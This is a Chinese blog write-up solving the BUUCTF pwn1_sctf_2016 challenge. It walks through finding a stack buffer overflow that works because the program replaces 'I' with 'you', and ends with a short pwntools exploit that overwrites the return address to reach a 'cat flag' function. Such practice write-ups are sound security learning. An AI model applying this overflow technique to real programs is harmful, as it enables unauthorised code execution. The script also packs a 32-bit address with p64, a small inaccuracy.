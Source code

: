 # BUUCTF-PWN-pwn1_sctf_2016

下载 放入ubuntu里查信息



<img src="https://i-blog.csdnimg.cn/blog_migrate/631798228e3c9b61b7f2b1c6d75169a5.png" alt="" style="max-height:374px; box-sizing:content-box;" />


现在这些保护我都没有遇到 以后慢慢做应该是会遇到的

然后进行发现是32 所以我们记住 如果栈溢出漏洞 我们需要4个字节填满基地址

放入ida32

查看字符串



<img src="https://i-blog.csdnimg.cn/blog_migrate/f636cf3acefe669c6dc717c332c3d9de.png" alt="" style="max-height:245px; box-sizing:content-box;" />


发现 cat flag 敏感字符串

然后我们就看引用



<img src="https://i-blog.csdnimg.cn/blog_migrate/e6608fd55c1d6856ece6553178cd6902.png" alt="" style="max-height:340px; box-sizing:content-box;" />


先记住地址

为

```cobol
0x8048F0D
```

然后开始进去 发现没有用 所以找到主函数



<img src="https://i-blog.csdnimg.cn/blog_migrate/15551fd16e9e2881423906176c28adba.png" alt="" style="max-height:218px; box-sizing:content-box;" />


进入vuln函数



<img src="https://i-blog.csdnimg.cn/blog_migrate/93dc28fe28a02ed74b99ac61d7e924a8.png" alt="" style="max-height:464px; box-sizing:content-box;" />


发现get  但是只能输入 32个 所以无法实现栈溢出

不管能不能用 先记住 s的地址

0x3c = 60字节 因为是32个 所以无法满足

原本看别人的博客 是说replace函数替换了 但是 我看不明白 很简单的办法

我们nc 这个 运行程序 输入 i you 看看发生了什么



<img src="https://i-blog.csdnimg.cn/blog_migrate/d2f62093d35aa456df62d2199dac5422.png" alt="" style="max-height:263px; box-sizing:content-box;" />




发现进行了替换 这样我们就可以执行栈溢出

因为you占3字节 我们只能输入 32个  一个i =三个字节 所以我们输入 20个I 就可以占 60 字节

就刚刚好满足了get的溢出 然后再输入4个垃圾字符 就可以 实现函数返回 再将 get flag返回地址填入即可

exp

```cobol
from pwn import *
p = remote('node4.buuoj.cn',29543)
payload=b'I'*20+b'b'*4+p64(0x8048F0D)
p.sendline(payload)
p.interactive()
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/a6d19bd4bfe3d54ae6c11e049cf0c625.png" alt="" style="max-height:441px; box-sizing:content-box;" />


得到flag

这题我们发现 如果注意到replace函数要注意